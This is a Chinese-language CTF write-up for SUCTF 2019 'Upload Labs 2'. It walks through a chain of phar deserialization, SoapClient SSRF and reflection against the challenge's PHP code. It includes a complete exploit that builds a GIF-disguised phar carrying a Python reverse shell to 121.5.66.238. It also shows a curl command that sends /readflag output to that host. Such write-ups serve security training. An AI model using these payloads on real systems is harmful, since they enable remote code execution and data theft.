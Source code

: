 # \[SUCTF 2019]Upload Labs 2

## \[SUCTF 2019]Upload Labs 2

## 考点

* 代码审计
* phar反序列化
* PHP SoapClient 反序列化触发SSRF
* 使用phar://缺不能以phar开头时，可以使用`php://filter/resource=phar://`
* finfo\_file() 结合 php://filter 触发 phar 反序列化

## wp

有两个功能，上传图片和查看图片信息。

给了源码，和修改后的admin.php，要进行审计

index. php是文件上传功能，白名单限制。func.php是文件读取功能，返回文件的MIME。class.php定义了File类和Check类。至此基本判断是phar反序列化。

首先是index.php，说明了上传路径为 `upload/md5($_SERVER["REMOTE_ADDR"])`，然后采用白名单的方式限制后缀和content-type，最后调用Check类的check函数对上传文件内容做一个检查，不允许`<?`存在。对于func.php，是获取上传的文件，采用黑名单的方式封禁了很多PHP伪协议。然后调用自定义的File类来获取文件

然后找获取flag的地方，在admin.php的Ad类的`__destruct()`使用了system函数，也就是说要<mark style="background-color:orange;">对Ad类进行实例化，或者反序列化</mark>。

```php
class Ad{
    public $cmd;
    public $clazz;
    public $func1;
    public $func2;
    public $func3;
    public $instance;
    public $arg1;
    public $arg2;
    public $arg3;
    function __construct($cmd, $clazz, $func1, $func2, $func3, $arg1, $arg2, $arg3){
        $this->cmd = $cmd;
        $this->clazz = $clazz;
        $this->func1 = $func1;
        $this->func2 = $func2;
        $this->func3 = $func3;
        $this->arg1 = $arg1;
        $this->arg2 = $arg2;
        $this->arg3 = $arg3;
    }
    function check(){
        $reflect = new ReflectionClass($this->clazz);
        $this->instance = $reflect->newInstanceArgs();
        $reflectionMethod = new ReflectionMethod($this->clazz, $this->func1);
        $reflectionMethod->invoke($this->instance, $this->arg1);
        $reflectionMethod = new ReflectionMethod($this->clazz, $this->func2);
        $reflectionMethod->invoke($this->instance, $this->arg2);
        $reflectionMethod = new ReflectionMethod($this->clazz, $this->func3);
        $reflectionMethod->invoke($this->instance, $this->arg3);
    }
    function __destruct(){
        system($this->cmd);
    }
```

接着看，在admin.php中如果是本地访问，并且POST参数admin，就可以实例化Ad类，并且Ad类的参数都可以用POST提交。

```php
if($_SERVER['REMOTE_ADDR'] == '127.0.0.1'){
    if(isset($_POST['admin'])){
        $cmd = $_POST['cmd'];

        $clazz = $_POST['clazz'];
        $func1 = $_POST['func1'];
        $func2 = $_POST['func2'];
        $func3 = $_POST['func3'];
        $arg1 = $_POST['arg1'];
        $arg2 = $_POST['arg2'];
        $arg3 = $_POST['arg3'];
        $admin = new Ad($cmd, $clazz, $func1, $func2, $func3, $arg1, $arg2, $arg3);
        $admin->check();
    }
}
```

但是Ad类的`check()`函数的含义是什么？首先通过反射获取`$this->clazz`类，然后构造一个没有属性的`$this->clazz`类的实例化对象，最后分别获取`$this->clazz`类的`$this->func1`，`$this->func2`，`$this->func3`函数，并分别把`$this->arg1`，`$this->arg2`，`$this->arg3`传入执行。通过反射创建的类大概如下，这里类的方法和其参数都可以相同。

```php
Class clazz{
    function func1($arg1){
        ...
    }
    function func2($arg2){
        ...
    }
    function func3($arg3){
        ...
    }
}
```

这里可以使用<mark style="background-color:red;">SplStack类和它的push方法</mark>。POST数据

```
admin=1&cmd=curl "http://121.5.66.238:20010/?a=`/readflag`"&clazz=SplStack&func1=push&func2=push&func3=push&arg1=123456&arg2=123456&arg3=123456
```

要想让 admin.php 去实例化Ad类，就要让 REMOTE\_ADDR 为 127.0.0.1，即本地访问，接下来的问题就是如何去实现SSRF

而在反序列化里面可以实现SSRF的是SoapClient类，接下来就要找触发SoapClient 的位置。<mark style="background-color:orange;">可以看到在 File 类中的 \_\_wakeup() 存在一个反射，那就可通过这个反射，来获取SoapClient对象，然后调用SoapClient对象的check函数，这个check函数SoapClien中并不存在，就可以触发SoapClient的SSRF</mark>

```php
class File{
    public $file_name;
    public $type;
    public $func = "Check";
    function __construct($file_name){
        $this->file_name = $file_name;
    }
    function __wakeup(){
        $class = new ReflectionClass($this->func);
        $a = $class->newInstanceArgs($this->file_name);
        $a->check();
    }
    function getMIME(){
        $finfo = finfo_open(FILEINFO_MIME_TYPE);
        $this->type = finfo_file($finfo, $this->file_name);
        finfo_close($finfo);
    }
    function __toString(){
        return $this->type;
    }
}
```

接下来就是如何让 File() 类反序列化。finfo\_file可以触发phar反序列化，但是在 fuc.php 不能传 phar:// 开头的字符串。<mark style="background-color:green;">在PHP中，php://filter/resource这个伪协议可以触发phar反序列化，所以在 fuc.php 不能传 phar:// 开头的字符串，可以使用 php://filter/resource=phar://......进行绕过</mark>

这里直接放反弹shell的exp

```php
<?php

class File{
	public $file_name;
	public $func="SoapClient";
	public function __construct(){
		$payload='admin=1&cmd=python -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("121.5.66.238",20010));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);\'&clazz=SplStack&func1=push&func2=push&func3=push&arg1=123456&arg2=123456&arg3=123456';
		$this->file_name=[null,array('location'=>'http://127.0.0.1/admin.php','user_agent'=>"xxx\r\nContent-Type: application/x-www-form-urlencoded\r\nContent-Length: ".strlen($payload)."\r\n\r\n".$payload,'uri'=>'abc')];
	}	
}
$a=new File();
@unlink("phar.phar");
$phar=new Phar("phar.phar");
$phar->startBuffering(); 
$phar->setStub('GIF89a'.'<script language="php">__HALT_COMPILER();</script>');
$phar->setMetadata($a); 
$phar->addFromString("test.txt", "test");
$phar->stopBuffering();
?>
```

使用上面的exp生成phar，改名为1.gif，再上传。在vps监听端口，在 fuc.php 中输入`php://filter/resource=phar://upload/cc551ab005b2e60fbdc88de809b2c4b1/b1467d0a5330091b554e2d892f7e8308.gif`，就可以反弹shell了

![](<../../.gitbook/assets/image (14).png>)

![](<../../.gitbook/assets/image (34).png>)

或者是cmd改成``curl "http://121.5.66.238:20010/?a=`/readflag`"``直接获取flag

![](<../../.gitbook/assets/image (24).png>)

## 小结

1. 原题预期解是MySQL 客户端任意文件读取（MySQL Client Attack），改代码后简化了很多
2. [SUCTF 2019 Upload labs 2 踩坑记录](https://www.cnblogs.com/peri0d/p/12465523.html)
3. [https://www.cnblogs.com/tr1ple/p/11394464.html](https://www.cnblogs.com/tr1ple/p/11394464.html)
